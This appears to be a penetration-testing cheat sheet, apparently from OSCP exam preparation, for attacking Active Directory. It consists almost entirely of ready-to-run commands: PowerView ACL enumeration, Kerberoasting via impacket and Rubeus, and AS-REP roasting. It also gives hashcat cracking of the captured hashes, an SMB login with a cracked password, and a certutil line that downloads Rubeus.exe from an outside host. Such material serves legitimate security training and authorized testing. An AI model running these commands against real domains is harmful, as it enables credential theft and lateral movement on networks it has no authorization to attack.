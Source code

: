 ```jsx
Invoke-ACLScanner -ResolveGUIDs | select IdentityReferenceName, ObjectDN, ActiveDirectoryRights | fl
Find-InterestingDomainAcl -ResolveGUIDs
Get-GPO -Guid 31B2F340-016D-11D2-945F-00C04FB984F9

```

```jsx
# Get Domain Controller
# Get Computers + OS
# Get Users + groups
# Check Domain Admins
# Check access to PC with Domain Admin session on
# Check Logged on sessions (Need admin - if successful we are local admin)
# Check Logged on sessions (No need for admin)
# AS-REP Roasting
# Kerberoasting (all services are kerberoasable)

# Check access to SMB shares
# Find local admin rights
# 
# 
 
# Find interesting ACLs
# Find intresting ACEs 
# Resolve GUID if CN not resolved
```

### Kerberoasting

```jsx
sudo impacket-GetUserSPNs -request -dc-ip 10.10.137.146 oscp.exam/web_svc
```

```jsx
certutil -urlcache -split -f http://192.168.45.214/Rubeus.exe
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
type hashes.kerberoast
```

```jsx
sudo hashcat -m 13100 sql_svc.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

```jsx
netexec smb 192.168.204.187 -u svc_mssql -p trustno1
```

### AS-REP Roasting

```jsx
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```

```jsx
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
